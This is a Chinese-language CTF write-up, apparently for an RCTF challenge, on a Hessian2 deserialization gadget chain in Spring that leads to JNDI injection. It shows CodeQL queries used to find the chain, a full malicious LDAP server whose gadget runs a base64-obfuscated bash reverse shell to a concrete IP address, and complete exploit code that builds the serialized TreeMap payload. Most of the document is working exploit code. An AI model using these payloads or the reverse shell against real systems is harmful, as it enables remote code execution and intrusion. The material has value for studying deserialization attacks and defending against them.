



## 前置知识

这题其实网上有现成的资料：

- [基于Hessian2反序列化挖掘Spring原生利用链-先知社区](https://xz.aliyun.com/news/17895)

## 利用链挖掘

### 1. 找InvocationHandler实现类

既然Maybe类里有InvocationHandler，那就先找它的实现类

CodeQL查询：

```sql
import java

class TargetInvocationHandler extends RefType {
    TargetInvocationHandler() {
       this.getASupertype*().hasQualifiedName("java.lang.reflect", "InvocationHandler")
    }

    Method invoke() {
        result.getName() = "invoke" and
        result = this.getAMethod()
    }
}

predicate isInWhiteList(RefType rt) {
    rt.getQualifiedName().matches("org.springframework.jndi%") or
    rt.getQualifiedName().matches("org.springframework.beans%") or 
    rt.getQualifiedName().matches("java.util%") or
    rt.getQualifiedName().matches("com.rctf.server.tool%")    
}

from TargetInvocationHandler tih
where isInWhiteList(tih)
select tih, "Class Name", tih.invoke(), "target method: invoke"
```



定位到了`ObjectFactoryDelegatingInvocationHandler`，它的invoke方法会调用ObjectFactory。

### 2. 找ObjectFactory实现类

找能到达jndi包的ObjectFactory实现：

```sql
import java

class ObjectFactory extends RefType {
    ObjectFactory() {
        this.hasQualifiedName("org.springframework.beans.factory", "ObjectFactory") 
    }

    MethodCall matchMethod() {
        result.getEnclosingCallable().getName() = "getObject" and 
        result.getEnclosingCallable().getNumberOfParameters() = 0 and
        isInWhiteList(result.getCallee().getDeclaringType()) 
    }
}

predicate isInWhiteList(RefType rt) {
    rt.getQualifiedName().matches("org.springframework.jndi%") or
    rt.getQualifiedName().matches("org.springframework.beans%") or
    rt.getQualifiedName().matches("java.util%") or
    rt.getQualifiedName().matches("com.rctf.server.tool%")    
}

predicate reachesJndi(MethodCall call) {
  // 基础：callee 在 jndi 包
  exists(Method m |
    call.getMethod() = m and
    m.getDeclaringType().getQualifiedName().matches("org.springframework.jndi%")
  )
  or
  // 基础：callee 在接口，且接口有实现类在 jndi 包
  exists(Method m, Interface itf |
    call.getMethod() = m and
    m.getDeclaringType() = itf and
    exists(RefType impl | impl.getASupertype*() = itf and impl.getQualifiedName().matches("org.springframework.jndi%"))
  )
  or
  // 递归进入 callee 方法体
  exists(Method m, MethodCall inner |
    call.getMethod() = m and
    inner.getEnclosingCallable() = m and
    reachesJndi(inner)
  )
}

from ObjectFactory of, MethodCall mc
where mc = of.matchMethod() and reachesJndi(mc)
select  mc, "target method: getObject", mc.getCaller(), "调用点"
```



### 3. 找BeanFactory实现类

继续找与jndi相关的BeanFactory：

```sql
import java

class BeanFactory extends RefType {
    BeanFactory() {
        this.hasQualifiedName("org.springframework.beans.factory", "BeanFactory") 
    }

    MethodCall matchMethod() {
        result.getEnclosingCallable().getName() = "getBean" and 
        isInWhiteList(result.getCallee().getDeclaringType()) 
    }
}

predicate isInWhiteList(RefType rt) {
    rt.getQualifiedName().matches("org.springframework.jndi%") or
    rt.getQualifiedName().matches("org.springframework.beans%") or
    rt.getQualifiedName().matches("java.util%") or
    rt.getQualifiedName().matches("com.rctf.server.tool%")    
}

from BeanFactory bf, MethodCall mc
where mc = bf.matchMethod()
select mc, "target method: getBean", mc.getCaller().getDeclaringType(), "调用者", mc.getCallee().getDeclaringType(), "被调用者"
```



找到了`SimpleJndiBeanFactory.getBean()`方法，可以直接JNDI注入。

至于jndi注入利用jackson可能会遇到一个问题：有时stylesheetDOM会在outputProperties之前，此时就会失败，可以自行构建一个jndi服务端：

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

/**
 * 简约JNDI LDAP服务端 - 直接返回序列化对象
 */
public class JNDIServer {
    
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] args) {
        int port = 1389;  // 默认端口
        
        if (args.length >= 1) {
            port = Integer.parseInt(args[0]);
        }
        
        try {
            System.out.println("[+] 启动JNDI LDAP服务器...");
            System.out.println("[+] 监听端口: " + port);
            System.out.println("[+] 客户端访问: ldap://xxx.xxx.xxx.xxx:" + port + "/evil");
            
            // 生成恶意序列化对象
            System.out.println("[+] 生成恶意序列化对象...");
            Object evilObject = createEvilObject();
            System.out.println("[+] 序列化对象生成成功!");
            
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    null,
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault())
            );
            
            // 设置操作拦截器，处理查询请求
            config.addInMemoryOperationInterceptor(new OperationInterceptor(evilObject));
            
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            ds.startListening();
            
            System.out.println("[+] LDAP服务器启动成功!");
            System.out.println("[+] 等待客户端连接...");
            
        } catch (Exception e) {
            System.err.println("[-] 启动失败: " + e.getMessage());
            e.printStackTrace();
        }
    }
    
    /**
     * 创建恶意序列化对象
     */
    private static Object createEvilObject() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        
        // 移除writeReplace方法
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();
        
        // 创建恶意类
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjYuMTM4LjQ1LzUyMSAwPiYx}|{base64,-d}|{bash,-i}\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        
        // 构造TemplatesImpl
        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "test");
        setFieldValue(templatesImpl, "_tfactory", null);
        
        // 使用JdkDynamicAopProxy封装
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        POJONode jsonNodes = new POJONode(proxyObj);
        
        // 构造BadAttributeValueExpException
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp, jsonNodes);
        
        return exp;
    }
    
    /**
     * 反射设置字段值
     */
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    
    /**
     * LDAP操作拦截器 - 处理查询请求并返回序列化对象
     */
    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private Object evilObject;
        
        public OperationInterceptor(Object evilObject) {
            this.evilObject = evilObject;
        }
        
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            
            try {
                System.out.println("[+] 收到查询请求: " + base);
                
                // 序列化恶意对象
                ByteArrayOutputStream bos = new ByteArrayOutputStream();
                ObjectOutputStream oos = new ObjectOutputStream(bos);
                oos.writeObject(evilObject);
                oos.close();
                byte[] serializedData = bos.toByteArray();
                
                System.out.println("[+] 序列化数据大小: " + serializedData.length + " 字节");
                
                // 返回序列化对象
                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaSerializedData", serializedData);
                e.addAttribute("objectClass", "javaSerializedObject");
                
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
                
                System.out.println("[+] 已返回序列化对象给客户端!");
                
            } catch (Exception ex) {
                System.err.println("[-] 处理请求失败: " + ex.getMessage());
                ex.printStackTrace();
            }
        }
    }
}

```


## 利用链构造

Gadget前头其实就是Spring1的思路，套一层代理而已。

完整调用链：

```
hessian2Input.readObject()
  -> TreeMap.put(in.readObject(), in.readObject())
    -> TreeMap.compare(key, key)
      -> ((Comparable<? super K>)k1).compareTo((K)k2)  // k1是Maybe代理对象
        -> ObjectFactoryDelegatingInvocationHandler.invoke(Object proxy, Method method, Object[] args)
          -> TargetBeanObjectFactory.getObject()
            -> SimpleJndiBeanFactory.getBean(String name)  // name为"ldap://xxx/evil"
              -> JndiTemplate.lookup(final String name)
                -> RCE
```

## EXP

~~~java
```java
package com.rctf.delete;

import com.rctf.server.tool.HessianFactory;
import com.rctf.server.tool.Maybe;
import org.springframework.beans.factory.ObjectFactory;
import org.springframework.beans.factory.config.ObjectFactoryCreatingFactoryBean;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.TreeMap;

public class test2 {
    public static void main(String[] args) throws Exception{
        // 1. 创建SimpleJndiBeanFactory
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        
        // 2. 创建ObjectFactoryCreatingFactoryBean
        ObjectFactoryCreatingFactoryBean objectFactoryCreatingFactoryBean = new ObjectFactoryCreatingFactoryBean();
        
        // 3. 设置beanFactory（父类属性）
        Field beanFactory = Class.forName("org.springframework.beans.factory.config.AbstractFactoryBean")
            .getDeclaredField("beanFactory");
        beanFactory.setAccessible(true);
        beanFactory.set(objectFactoryCreatingFactoryBean, simpleJndiBeanFactory);
        
        // 4. 设置targetBeanName为恶意LDAP地址
        setFieldValue(objectFactoryCreatingFactoryBean, "targetBeanName", "ldap://xxx.xxx.xxx.xxx:1389/evil");
        
        // 5. 调用createInstance获取targetBeanObjectFactory
        Method createInstance = objectFactoryCreatingFactoryBean.getClass().getDeclaredMethod("createInstance");
        createInstance.setAccessible(true);
        ObjectFactory<?> targetBeanObjectFactory = (ObjectFactory<?>) createInstance.invoke(objectFactoryCreatingFactoryBean);
        
        // 6. 创建ObjectFactoryDelegatingInvocationHandler
        Constructor<?> declaredConstructor = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")
            .getDeclaredConstructor(ObjectFactory.class);
        declaredConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(targetBeanObjectFactory);

        // 7. 创建Maybe代理对象
        Maybe maybeProxy = new Maybe(invocationHandler);
        
        // 8. 塞进TreeMap触发compareTo
        TreeMap<Object, Object> treeMap = gadgetFromTreeMap(maybeProxy);

        // 9. 序列化
        String payload = HessianFactory.serialize(treeMap);
        System.out.println(payload);
        // HessianFactory.deserialize(payload);
    }

    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Class<?> clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }

    public static TreeMap<Object, Object> gadgetFromTreeMap(Object o) throws Exception {
        TreeMap<Object, Object> treeMap = new TreeMap<>();
        treeMap.put(1, 1);
        // 获取root节点
        Field rootField = TreeMap.class.getDeclaredField("root");
        rootField.setAccessible(true);
        Object rootEntry = rootField.get(treeMap);
        // 替换key为恶意对象
        Field keyField = rootEntry.getClass().getDeclaredField("key");
        keyField.setAccessible(true);
        keyField.set(rootEntry, o);
        return treeMap;
    }
}
~~~